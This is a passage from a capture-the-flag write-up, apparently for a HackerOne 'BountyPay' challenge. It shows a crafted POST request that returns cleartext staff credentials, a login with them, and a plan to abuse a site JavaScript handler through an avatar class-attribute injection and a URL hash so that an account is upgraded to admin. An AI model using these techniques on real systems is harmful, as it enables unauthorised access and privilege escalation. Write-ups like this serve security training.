 Now back to our /api/staff request, hoping for the best.
We resubmit the POST request from above with the newly obtained staff_id .... and BOOM, we get something nice (small win dance now).
we get cleartext credentials for sandra's account
**Request:**
```
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:8FJ3KFISL3
```
**Response:**
```
{"description":"Staff Member Account Created","username":"sandra.allison","password":"s%3D8qB8zEpMnc*xsz7Yp5"}
```

##We Are In (thanks to sandra)
Now we try this credentials into the [staff login](https://staff.bountypay.h1ctf.com/?template=login). And we successfully authenticate.
Looking around though, makes us feel really disappointed. There is nothing obvious in her  profile. Playing a bit with available menus, doesnt give any attack vector. Then going through the burp proxy history i notice something interesting. There is a https://staff.bountypay.h1ctf.com/js/website.js file which is a custom JavaScript file. Going through it we notice 2 functions that appear interesting
 1. upgradeToAdmin
 2. sendReport

First one seems to be accessible only for admins, while second one just returns a response that Report has been received.
Trying to submit XSS payload via the sendReport functionality, hoping to get the administrators cookies, did not return anything.
At this point i was strongly confident that the JS code was the one to focus into. Also based on the messages we had, we should somehow make the admin upgrade our account.
We could only alter two parameters, the `profile_name` and the `profile_avatar` .
Injecting any special character would be removed (again no XSS).
Upon changing the avatar to a random value, we see that it is inserted into a class attribute, which seemed interesting.
{F852155}

Also in the JavaScript file, there was a line at the bottom which had some checks and if they were met it would trigger a click event. (presenting a part of it below)
`document.location.hash.length>0&&("#tab1"===document.location.hash&&$(".tab1").trigger("click")`

Based on that it appeared that we had to craft a url like `https://staff.bountypay.h1ctf.com/?template=home#tab1` to trigger the click.
If the click was triggered the upgradeToAdmin function could be invoked (interesting right?!)
